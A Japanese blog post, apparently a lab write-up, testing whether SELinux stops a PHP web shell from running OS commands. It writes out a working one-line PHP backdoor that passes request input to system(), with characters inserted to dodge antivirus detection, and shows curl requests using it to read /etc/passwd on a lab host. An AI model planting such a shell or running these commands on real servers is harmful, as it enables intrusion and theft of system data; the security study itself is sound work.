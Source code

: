 ```yaml
---
layout:        post
title:         "SELinuxによるPHPバックドア(WebShell)の<br>OSコマンド実行拒否と例外ルール作成"
date:          2021-10-20
category:      SELinux
cover:         /assets/cover6.jpg
redirect_from: /linux/selinux-and-php-backdoor
comments:      true
published:     true
latex:         false
photoswipe:    false
# sitemap: false
# feed:    false
---
```


SELinuxが有効化されている環境でバックドアが期待通りに動作するかを検証しました。
また、バックドアが動くように例外ルールをSELinuxに追加する方法も説明します。

SELinux (Security-Enhanced Linux) は、Linux カーネルにおける MAC の実装です。
プロセスがファイルやディレクトリにアクセス (Read/Write/Exec) するとき、まずはユーザとグループに基づいて制御する任意アクセス制御 (DAC; Discretionary Access Control) をチェックし、その後に**強制アクセス制御** (**MAC**; Mandatory Access Control) をチェックします。DACとMACの両方で許可された場合のみ、アクセスが許可されます。
DACルールでアクセス拒否した場合は、MACルールは使用されません。

### SELinux環境下のPHPバックドア

まず、サーバ側にバックドアを設置します。
注意ですが、以下のコマンドを入力するときは内容から `---` を取り除いてください（Windows DefenderによるTrojan検知を防ぐために入れてます）。
~~~bash
cat <<EOS > /var/www/html/backdoor.php
<?---php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
EOS
~~~

httpdが起動していて、FWで80番ポートが開いていることを確認したら、バックドア経由でコマンドを実行させます。
ブラウザでアクセスしても良いですが、今回はPowerShellを使ってcurlでアクセスします。

~~~powershell
PS> (curl http://192.168.56.102/backdoor.php?cmd=pwd).Content
<pre>/var/www/html
</pre>

PS> (curl http://192.168.56.102/backdoor.php?cmd=cat+/etc/passwd).Content
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
...(省略)...

PS> (curl http://192.168.56.102/backdoor.php?cmd=curl+example.com).Content
<pre></pre>
~~~
